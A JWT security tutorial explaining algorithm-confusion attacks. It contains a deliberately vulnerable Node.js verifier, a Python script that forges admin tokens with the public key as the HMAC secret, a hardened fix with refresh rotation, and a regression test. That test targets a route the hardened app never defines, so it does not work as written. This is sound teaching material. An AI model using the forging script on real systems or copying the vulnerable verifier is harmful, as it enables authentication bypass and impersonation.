

# 🪙 JWT Security, Vulnerabilities & Hardening

> Deep-dive into JSON Web Token attack vectors: Algorithm confusion, key injection, signature stripping, and refresh token rotation patterns.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
JSON Web Tokens (RFC 7519) are ubiquitous in modern microservices and API gateways. However, because JWT is an open, client-extensible JSON container specifying its own signing algorithm in its header (`alg`), it is one of the most frequently exploited specifications in web security.

A misunderstanding between symmetric (HMAC) and asymmetric (RSA/ECDSA) keys, or failing to validate the token header against a strict whitelist, can allow any attacker with an internet connection to forge arbitrary administrator claims and achieve total system compromise.

### 🧠 The Fun Analogy: The "Self-Signed Diplomatic Badge"
Imagine an international summit where everyone wears a lanyard badge:
- **How it should work:** The badge says: *"Issuer: United Nations. Signature: Verified by the UN Public Key."* Every guard holds the UN public key and checks the holographic stamp.
- **The Algorithm Confusion Flaw (HS256 vs RS256):** The badge holder walks up to a guard and says: *"Hey, treat this badge as a private symmetric shared secret (HMAC), and use your public key file as the secret password to verify my signature."* If the guard foolishly runs HMAC using the text of their own public key certificate as the secret passphrase, the attacker can pre-sign any badge they want using that publicly available text!

### Severity & Impact
- **OWASP Category:** [A02:2021 – Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/), [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- **Common Weakness Enumeration (CWE):**
  - **CWE-347:** Improper Verification of Cryptographic Signature
  - **CWE-327:** Use of a Broken or Risky Cryptographic Algorithm
- **Blast Radius:** Complete administrative impersonation, privilege escalation, cross-tenant data access.

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** Paste any JWT into [jwt.io](https://jwt.io) or inspect it in the DevTools console using `JSON.parse(atob(token.split('.')[0]))`. Check the `alg` field: if it shows `none` or if your backend allows both `HS256` and `RS256` dynamically, your application is vulnerable to algorithm confusion.

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario: The Key Confusion (HMAC vs. RSA) Vulnerability
An engineering team migrated from symmetric `HS256` to asymmetric `RS256`. However, they used a generic JWT verification library that reads the algorithm from the token header and passed the RSA public key directly to `jwt.verify()`.

#### ❌ Vulnerable Token Verification (Node.js / Express)
```typescript
// vulnerable-jwt-verifier.ts
import express, { Request, Response } from 'express';
import jwt from 'jsonwebtoken';
import fs from 'fs';

const app = express();
const publicKey = fs.readFileSync('public.pem', 'utf8');

app.get('/api/admin/dashboard', (req: Request, res: Response) => {
  const token = req.headers.authorization?.split(' ')[1];
  if (!token) return res.status(401).json({ error: 'No token' });

  try {
    // ⚠️ CRITICAL FLAW: algorithms array is NOT specified!
    // The library allows whatever algorithm is in the token header!
    // If the attacker sets alg="HS256", jwt.verify treats publicKey as an HMAC secret!
    const decoded = jwt.verify(token, publicKey) as any;
    
    if (decoded.role === 'admin') {
      return res.json({ secretMetrics: 'Confidential Enterprise Financials' });
    }
    res.status(403).json({ error: 'Forbidden' });
  } catch (err) {
    res.status(401).json({ error: 'Invalid token' });
  }
});
```

#### 💥 The Attacker's Exploit Script
```python
import jwt
import requests

# 1. Obtain public key from target server
public_key_text = open("public.pem", "r").read()

# 2. Forge admin token using HMAC-SHA256 with the public key as symmetric secret!
forged_payload = {"sub": "hacker", "role": "admin", "iat": 1700000000, "exp": 1900000000}
malicious_jwt = jwt.encode(forged_payload, key=public_key_text, algorithm="HS256")

# 3. Access admin API
res = requests.get(
    "http://localhost:3000/api/admin/dashboard",
    headers={"Authorization": f"Bearer {malicious_jwt}"}
)

print("Exploit Success:", res.status_code, res.json())
```

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Hardened JWT Verification & Refresh Token Rotation
```typescript
// hardened-jwt-engine.ts - IMMUTABLE ALGORITHMS & REFRESH ROTATION
import express, { Request, Response, NextFunction } from 'express';
import jwt from 'jsonwebtoken';
import crypto from 'crypto';
import fs from 'fs';

const app = express();
const RS256_PUBLIC_KEY = fs.readFileSync('public.pem', 'utf8');

// 🛡️ 1. Pinned Algorithm & Claims Whitelist
export const verifyAccessToken = (req: Request, res: Response, next: NextFunction) => {
  const token = req.headers.authorization?.split(' ')[1];
  if (!token) return res.status(401).json({ error: 'Authorization token required' });

  try {
    // 🛡️ MANDATORY: Hardcode algorithms to ['RS256'] to prevent key confusion!
    const decoded = jwt.verify(token, RS256_PUBLIC_KEY, {
      algorithms: ['RS256'],
      issuer: 'https://auth.company.com',
      audience: 'https://api.company.com',
    });
    (req as any).user = decoded;
    next();
  } catch (err: any) {
    return res.status(401).json({ error: 'Invalid or expired token', reason: err.message });
  }
};

// 🛡️ 2. Secure Refresh Token Rotation with Automatic Family Revocation
// If an already-used refresh token is reused, revoke the entire token family immediately!
const tokenFamilies = new Map<string, { currentToken: string; userId: string }>();

app.post('/api/auth/refresh', async (req: Request, res: Response) => {
  const { familyId, refreshToken } = req.body;
  const family = tokenFamilies.get(familyId);

  if (!family) {
    return res.status(401).json({ error: 'Invalid session family' });
  }

  // ⚠️ THEFT DETECTION: Token reuse indicates an attacker stole an old token!
  if (family.currentToken !== refreshToken) {
    tokenFamilies.delete(familyId); // Invalidate ENTIRE session family!
    console.error(`[BREACH DETECTED] Refresh token reuse detected for user ${family.userId}! Revoking all sessions.`);
    return res.status(401).json({ error: 'Security breach detected. Please log in again.' });
  }

  // Rotate refresh token
  const newRefreshToken = crypto.randomBytes(32).toString('hex');
  family.currentToken = newRefreshToken;

  res.json({
    accessToken: 'new_short_lived_rs256_access_token',
    refreshToken: newRefreshToken,
  });
});

export default app;
```

---

## 5. 🧪 Hands-On Verification & Lab

### Automated Test: Assert Algorithm Confusion Rejection
```typescript
// jwt-confusion.test.ts
import request from 'supertest';
import app from './hardened-jwt-engine';
import jwt from 'jsonwebtoken';
import fs from 'fs';

describe('JWT Security Regression Suite', () => {
  it('strictly rejects tokens signed with HS256 when RS256 is expected', async () => {
    const pubKey = fs.readFileSync('public.pem', 'utf8');
    // Forge token with HS256 using public key
    const forgedToken = jwt.sign({ role: 'admin', sub: 'hacker' }, pubKey, { algorithm: 'HS256' });

    const res = await request(app)
      .get('/api/admin/dashboard')
      .set('Authorization', `Bearer ${forgedToken}`);

    expect(res.status).toBe(401);
    expect(res.body.reason).toContain('invalid algorithm');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **Algorithm Hardcoded:** Is `algorithms: ['RS256']` (or `ES256`) hardcoded in `jwt.verify()` options?
- [ ] **No `alg: none` Allowed:** Does the parser explicitly ban unsigned/none tokens?
- [ ] **Issuer & Audience Checked:** Are `iss` and `aud` claims validated on every request?
- [ ] **Short Expiration Time:** Are access tokens configured with lifetimes <= 15 minutes?
- [ ] **Refresh Token Rotation:** Does the refresh flow issue a new refresh token on every use and revoke the family on token reuse?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [JSON Web Tokens (JWT) Explained (Computerphile - Dr. Mike Pound)](https://www.youtube.com/watch?v=7Q17ubqL2hs) — The mathematical and cryptographic foundations of JWT signatures and tampering.
- 🎥 [JWT Vulnerabilities & Exploits: alg: none and Key Confusion (PortSwigger Academy)](https://www.youtube.com/watch?v=sI9f_V5U0tM) — Practical exploitation walkthrough showing RS256-to-HS256 key confusion attacks.
- 🎥 [Why JWTs Suck for Web Authentication (Randall Degges)](https://www.youtube.com/watch?v=J5bIPtEbS0Q) — Engineering critique of stateless tokens in browsers vs. secure session cookies.

### 📖 Primary Documentation & Specifications
- 📜 [RFC 7519: JSON Web Token (JWT) Specification](https://datatracker.ietf.org/doc/html/rfc7519) — The authoritative IETF standard.
- 📜 [RFC 8725: JSON Web Token Best Current Practices](https://datatracker.ietf.org/doc/html/rfc8725) — Mandatory security guidelines to prevent common implementation vulnerabilities.
- 📜 [OWASP JSON Web Token Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html) — Secure token verification patterns.

### 🧪 Interactive Hands-On Training Labs
- 🎯 [PortSwigger Lab: JWT authentication bypass via unverified signature](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature) — Practice forging administrator tokens without a valid secret.
- 🎯 [PortSwigger Lab: JWT authentication bypass via flawed signature verification (alg: none)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification) — Hands-on testing of `alg: none` bypasses.
